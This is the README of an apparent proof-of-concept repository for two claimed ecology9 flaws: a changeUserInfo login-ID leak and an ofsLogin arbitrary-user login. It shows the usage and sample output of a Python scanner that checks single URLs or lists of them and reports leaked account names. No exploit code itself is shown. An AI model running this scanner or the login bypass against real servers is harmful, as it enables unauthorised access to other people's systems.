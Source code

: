 # ecology9-ofsLogin-poc
ecology9 changeUserInfo信息泄漏(☑️)及ofsLogin任意用户登录(☑️)

## poc
- `-h`
```bash
$ python3 poc.py -h
usage: poc.py [-h] [-u URL] [-U URLS]

ecology9 changeUserInfo信息泄漏检测

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     url
  -U URLS, --urls URLS  urls.txt
```

- `-u https://1.1.1.1/`

```bash
$ python3 poc.py -u https://1.1.1.1/
[+] 1.1.1.1, 发现loginId: ['admin', 'test']
```

- `-U urls.txt`

```bash
$ python3 poc.py -U urls.txt
[-] 1.1.1.1, 发现loginId: ['admin', 'test']
[-] 2.2.2.2, 未发现发现loginId或不存在漏洞！
[-] 3.3.3.3, 未发现发现loginId或不存在漏洞！
[-] 4.4.4.4, 未发现发现loginId或不存在漏洞！
[+] 5.5.5.5, 未发现发现loginId或不存在漏洞！
```

## exp
![ainrm@20230527225644](ainrm@20230527225644.png)
